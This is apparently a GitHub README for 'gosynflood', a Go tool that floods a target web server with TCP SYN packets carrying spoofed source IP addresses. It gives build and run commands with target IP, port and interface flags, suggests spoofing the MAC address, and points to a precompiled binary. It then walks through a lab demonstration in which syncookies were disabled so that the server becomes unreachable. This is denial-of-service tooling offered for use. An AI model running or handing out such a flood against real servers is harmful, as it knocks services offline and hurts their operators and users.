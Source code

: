 
### gosynflood - Repeatedly Send Crafted TCP SYN Packets with Raw Sockets

###### intended for Ubuntu and other Debian distributions

###### USAGE:
<pre>
  <code>
# go get or git clone the project
go get github.com/rootVIII/gosynflood
git clone https://github.com/rootVIII/gosynflood.git


# Navigate to project root and build:
go build .

# raw sockets require root privileges when executing:
sudo ./gosynflood -t &lt;target IPV4 address&gt; -p &lt;port number&gt; -i &lt;network interface&gt;

# Example:
sudo ./gosynflood -t 192.168.1.120 -p 80 -i wlp3s0

** The bin/builds directory has a compiled executable if you do not have
Golang installed or do not want to build it yourself.
  </code>
</pre>

###### CLI OPTIONS:
<pre>
  <code>
-t private or public IP address of target webserver
-p target webserver's port number (defaults to port 80 if not provided)
-i your network interface (running without -i will fail,
     but it will suggest all found interfaces, ie: lo, wlpxxx, eth0 etc.)

Enter control-c to stop the flood attack.
  </code>
</pre>

Each packet's IP address is spoofed. <b>MAC addresses are not spoofed</b>.
It is up to you to spoof your MAC Address beforehand if desired.

This attack may only work on web servers susceptible to numerous half-open connections (SYN_RECV).

To demonstrate this, a small Ubuntu Mate running Apache2 will act as the target.
It's a physical machine on a private network.

<hr>
1. The tcp_syncookies flag was set to 0 (to make the target vulnerable for demonstration purposes) and the webserver was started on the target:
<img src="https://github.com/rootVIII/gosynflood/blob/master/bin/screenshots/1.png">


2. The attacker machine (a separate physical machine also running Ubuntu) executes the gosynflood exe with root privileges:
<img src="https://github.com/rootVIII/gosynflood/blob/master/bin/screenshots/5.png">


3. The initial SYNs are visible in Wireshark on the target
<img src="https://github.com/rootVIII/gosynflood/blob/master/bin/screenshots/2.png">
<img src="https://github.com/rootVIII/gosynflood/blob/master/bin/screenshots/3.png">


4. During the attack the webserver should be unreachable at it's URL if it is susceptible. The half-open connections are visible via the command <code>netstat -na --tcp</code>
<img src="https://github.com/rootVIII/gosynflood/blob/master/bin/screenshots/4.png">




This was developed on Ubuntu 18.04 LTS.
<hr>
<b>Author: rootVIII  2020</b>
<br><br>